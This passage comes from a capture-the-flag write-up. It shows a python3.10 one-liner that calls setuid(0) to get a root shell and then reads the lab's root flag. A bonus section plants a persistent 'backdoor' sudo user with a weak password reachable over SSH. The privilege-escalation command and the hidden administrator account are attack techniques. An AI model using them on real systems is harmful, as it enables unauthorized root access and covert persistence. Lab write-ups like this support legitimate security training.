 18) Trying to start a shell as root with python3.10

```
app@ubuntu:~/gerapy$ python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
root
```

We did it - we are root!

19) We find the root flag in `/root/proof.txt`

```
pwd
/home/app
cd /root
ls -la
total 52
drwx------  6 root root 4096 Feb 26 03:30 .
drwxr-xr-x 19 root root 4096 Jun 15  2022 ..
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jun 13  2023 .cache
-rw-r--r--  1 root root    8 Jun 14  2023 email3.txt
drwxr-xr-x  3 root root 4096 Jun 16  2022 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Feb 26 03:30 proof.txt
drwx------  3 root root 4096 Jun 14  2023 snap
drwx------  2 root root 4096 Jun 15  2022 .ssh
-rw-------  1 root root 9152 Jun 14  2023 .viminfo
cat proof.txt
18bbbcbb4d3bad4eff17a9c199adcacf
```

## Bonus

20) We'll set-up a new linux user for persistence via the open SSH service

- We add a new user called `backdoor` (`-m` just creates a homedir for it, optional) with `sudo useradd -m backdoor`
- We set a password `hackerman` for the new user with `sudo passwd backdoor` (and type the password)
- We add the `backdoor` user to the `sudo` group with `sudo usermod -aG sudo backdoor`

```
sudo useradd -m backdoor
sudo passwd backdoor
New password: hackerman
Retype new password: hackerman
passwd: password updated successfully
sudo usermod -aG sudo backdoor
```

- We make sure the ssh server config allows password access by checking the `/etc/ssh/sshd_config`

```
sudo cat /etc/ssh/sshd_config | grep Password
#PasswordAuthentication yes
#PermitEmptyPasswords no
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
PasswordAuthentication yes
```
